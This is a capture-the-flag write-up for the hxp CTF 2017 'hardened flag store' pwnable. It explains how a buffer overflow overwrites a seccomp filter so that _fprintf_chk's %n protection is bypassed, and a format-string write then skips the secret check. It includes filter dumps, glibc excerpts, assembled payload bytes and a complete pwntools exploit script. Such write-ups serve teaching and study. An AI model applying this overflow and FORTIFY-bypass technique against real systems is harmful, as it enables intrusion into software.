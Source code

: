 ```yaml
---
type: ctf
title: hxp CTF 2017 - hardened flag store
tags: [Pwnable, seccomp]
date: 2017-11-20
author: Eno Leriand
---
```


The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools)

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
